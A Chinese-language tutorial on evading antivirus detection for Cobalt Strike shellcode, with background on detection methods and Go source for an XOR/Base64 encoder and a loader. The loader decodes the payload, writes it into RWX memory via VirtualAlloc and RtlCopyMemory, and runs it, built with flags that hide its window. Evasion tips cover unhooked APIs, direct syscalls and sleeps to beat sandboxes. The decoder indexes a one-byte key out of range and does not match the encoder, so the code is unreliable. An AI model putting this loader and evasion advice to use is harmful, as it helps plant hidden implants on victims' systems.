



## 前置知识
- Shellcode：指一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。
- Raw：Raw文件是可以直接进行字节操作读取的，因此加载到内存较为方便。本文全部使用Cobaltstrike生成的`bin`文件



### 程序内存空间
在冯诺依曼的体系结构中，一个进程必须有：Text 代码段、Data 数据段、BSS 堆栈段

- Text（只读）：存放程序代码的区域，它是由编译器在编译连接时自动计算的。
- Data（可读可写）：存放编译阶段（而非运行时）就能确定的数据，即通常所说的静态存储区。赋予初值的全局和静态变量、常量就是存在这个区域
- BSS（可读可写）：通常是用来存储未初始化或初始化为 0 的全局变量、静态变量的内存区域
   - Stack 栈：保存函数的局部变量和参数
   - Heap 堆：保存函数内部动态分配内存，即程序的动态变量



- 函数指针：指向函数的指针变量。程序编译时，每一个函数都有一个入口地址，该入口地址就是函数指针所指向的地址。函数指针有两个用途：调用函数和作为函数的参数。
- 函数指针声明：`void(*pFunction)()`，没有参数时可写成`void(*pFunction)(void)`。
   - 那么`pFunction`函数指针的原型就是 `void (*)()`，即把变量名去掉
   - 对于一个给定的`entry`地址，要把它转换成为函数指针，就是`(void (*) ())entry`
   - 那么调用这个函数指针的方式就是`((void(*)())entry)()`


### 查杀与免杀
杀软通用的查杀姿势一般可以分为静态查杀、动态查杀以及云查杀，更好一点的杀软还拥有主动防御功能。

- 静态查杀：主要有静态的签名查杀和启发式查杀
   - 签名查杀：
      - 从病毒体中提取的病毒特征码，逐个与程序文件比较
      - 特征码是反病毒公司在分析病毒时，确定的只有该病毒才可能会有的一系列二进制串，由这些特征可以识别出病毒程序
   - 启发式查杀：虚拟机引擎和行为检测相结合，通过模拟执行， 分析程序行为的安全检测技术。
- 行为查杀：杀软一般是对系统多个API进行了hook，如：注册表操作、添加启动项、添加服务、添加用户、注入、创建进程、创建线程、加载DLL等等。杀软除了进行hook关键API，还会对API调用链进行监控，如：申请内存，将shellcode加载进内存，再执行内存区域shellcode。
- 云查杀：
   - 云安全机制是一种新兴的安全查杀机制，不同的安全厂商的云安全查杀机制不一样。
   - 360安全卫士基于云共享特征库扫描机制，电脑管家基于主动防御信誉云的扫描机制。

免杀

- 静态免杀： 对抗基于特征的静态免杀比较简单，可以使用加壳改壳、添加/替换资源文件、修改特征码、Shellcode 编码/加密（AES/DES/Base64/Xor），目的是去除ShellCode特征
- 行为免杀：API 替换、使用未被 Hook 的 API、直接系统调用、替换操作方式采用白加黑手段等

### Go相关
> Go编写的程序很多杀软都会报毒（哪怕是HelloWorld）

- Tips：编码这块可使用 Xor 异或，不需要引入额外的包。因为 Go 编写的 Loader 体积较大，再引入包会更大
- 编译时经常会添加参数`-ldflags="-H windowsgui"`，其作用是隐藏CMD窗口

```bash
$ go build -ldflags="-s -w -H=windowsgui" -o main.exe main.go

# -o 指定输出文件名
# -s -w 减小体积
# -H=windowsgui 隐藏窗口
```

- 默认`go build`的exe都是当前操作系统的可执行文件，如果需要跨平台，只需要指定目标操作系统的平台和处理器架构即可。

```bash
# 编译当前操作系统的可执行文件
$ go build main.go
$ go build -o <Other_Name> main.go

# 【无弹窗】Mac编译exe
$ CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc CXX=x86_64-w64-mingw32-g++ GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H=windowsgui" main.go

```

## Loader

- Loader Tips：
   - 加载DLL，采用动态调用的方式，可以避免 IAT 的 Hook
   - 不要直接申请 RWX (读写执行)的内存，可先申请 RW 内存，后面再改为可执行，杀软对 RWX 的内存很敏感
   - 加载到内存的方法非常多，除了常见的`copy`和`move`还有`uuid`这种加载既能达到加密Shellcode 的效果，还能直接加载到内存
   - 执行内存，还可以用回调来触发如 EnumChildWindows，参考：[AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
   - API调用中间可以插入一些没用的代码，打乱API调用
   - 适当加一些 sleep，可以过一些沙箱

### 加密
> 由于反病毒软件对于默认生成的文件查杀较为严格，所以需要先对其进行混淆加密，然后再通过解密还原

- 这里使用XOR异或加密，加密部分可以自行修改，但后续解密部分需要做相应调整

```go
package main

import (
	"encoding/base64"
	"fmt"
	"io/ioutil"
)

var key = []byte{0x1b, 0x51, 0x11}

// 异或混淆加密,然后进行Base64编码
func getEnCode(shellcode []byte) string {
	var xorShellcode []byte
	for i := 0; i < len(shellcode); i++ {
		xorShellcode = append(xorShellcode, shellcode[i]^key[2]^key[1])
	}
	return base64.StdEncoding.EncodeToString(xorShellcode)
}

// 从文件中读取Shellcode
func getFileShellCode(file string) []byte {
	shellcode, err := ioutil.ReadFile(file)
	if err != nil {
		fmt.Print(err)
	}
	return shellcode
}

func main() {
	shellcode := getFileShellCode("payload.bin")
	fmt.Println(getEnCode(shellcode))
}

```

- bin文件太大的话，加密后的字符会很多，可以重定向到文件中

```bash
$ go run xor_shellcode.go > xor.txt
```

### 解密
Shellcode的执行步骤：首先需要通过Loader加载器去申请一块内存，然后使用将Shellcode加载到这块内存：中，最后执行这块内存。

- 首先定义用到的函数和变量

```go
const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40  // 区域可以执行代码，应用程序可以读写该区域。
)

var kk = []byte{0x21}

var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
// RtlMoveMemory = ntdll.MustFindProc("RtlMoveMemory")
    RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)
```

- 编写Shellcode的解密代码，还原恶意载荷

```go
func getDeCode(src string) []byte {
	ss, _ := base64.StdEncoding.DecodeString(src)
	var shellcode []byte
	for i := 0; i < len(ss); i++ {
		shellcode = append(shellcode, ss[i]^kk[1]^kk[2])
	}
	return shellcode
}

```

- 申请内存，然后加载Shellcode到申请的内存块并执行

```go
func main() {
	// 此处填写前面混淆后的Shellcode
	var shellcode = "<Shellcode>"
    
    // 解密Shellcode
	charcode := getDeCode(shellcode)

	// 申请内存
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(charcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 加载Shellcode
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&charcode[0])), uintptr(len(charcode)))
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 执行内存
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```

- 完整代码：

```go
package main

import (
	"encoding/base64"
	"syscall"
	"unsafe"
)

const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var kk = []byte{0x21}

var (
	kernel32     = syscall.MustLoadDLL("kernel32.dll")
	ntdll        = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc = kernel32.MustFindProc("VirtualAlloc")
	// RtlMoveMemory = ntdll.MustFindProc("RtlMoveMemory")
	RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

// Shellcode解密
func getDeCode(src string) []byte {
	ss, _ := base64.StdEncoding.DecodeString(src)
	var shellcode []byte
	for i := 0; i < len(ss); i++ {
		shellcode = append(shellcode, ss[i]^kk[1]^kk[2])
	}
	return shellcode
}

func main() {
	// 此处填写前面混淆后的Shellcode
	var shellcode = "<Shellcode>"
    
    // 解密Shellcode
	charcode := getDeCode(shellcode)

	// 申请内存
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(charcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 加载Shellcode
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&charcode[0])), uintptr(len(charcode)))
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 执行内存
	syscall.Syscall(addr, 0, 0, 0, 0)
}

```

- 前面加密算法部分待改进，此处仅做演示。现在已过不了火绒了，下班



- 参考文章：
   - [程序内存空间（代码段、数据段、堆栈段）](https://blog.csdn.net/superjiangzhen/article/details/79938458)
   - [初探Shellcode免杀](https://yunshanwuyin.com/BlogDetail?Id=thutgzhvtyyn4ezxzps6kcfu)
   - [CS 免杀学习](https://forum.butian.net/share/736)
   - [https://github.com/Rvn0xsy/BadCode](https://github.com/Rvn0xsy/BadCode)
   - [https://github.com/aahmad097/AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
- 在线杀毒检测：
   - [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)
   - [https://www.virscan.org/](https://www.virscan.org/)
